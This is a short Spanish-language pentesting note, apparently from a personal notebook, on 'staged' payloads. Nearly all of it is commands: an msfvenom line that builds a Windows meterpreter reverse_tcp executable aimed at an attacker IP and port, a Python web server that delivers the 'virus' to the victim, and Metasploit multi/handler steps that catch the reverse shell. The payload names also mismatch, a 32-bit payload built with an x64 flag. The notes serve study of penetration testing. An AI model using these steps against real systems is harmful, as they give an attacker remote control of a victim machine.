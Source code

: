 #payload #explotacion 

---------
Los de este tipo envían el payload de forma fragmentada, mientras que los de tipo [[Non-Staged]] no lo hacen.

- Suelen ser menos estables
- Payload más pequeños
- Menos detectables
- Personalizables

Una forma de crear payloads **staged** es de la siguiente manera, usando el [[MsfVenom]] con el siguiente código de ejecución:

`msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x64 LHOST=192.168.20.16 LPORT=4646 -f exe -o reverse.exe`

Posteriormente, una vez ganado el acceso en la máquina víctima, con el siguiente comando abre un servidor en Python3 y descargas el virus en la máquina víctima:

`python3 -m http.server 80`

Una vez descargado, mediante Metasploit accedes a la consola operativa del payload con los siguientes comandos:

`msfconsole`

`msfdb run`

Luego, estando en la consola, realiza lo siguiente:

`use exploit/multi/handler`

Seteamos el payload que vamos a utilizar:

`set payload windows/x64/meterpreter/reverse_tcp`

Seteamos nuestra IP y puerto de atacante:

`set LHOST 192.168.20.16`

`set LPORT 4646`

Finalmente, ejecutamos con el comando **run**.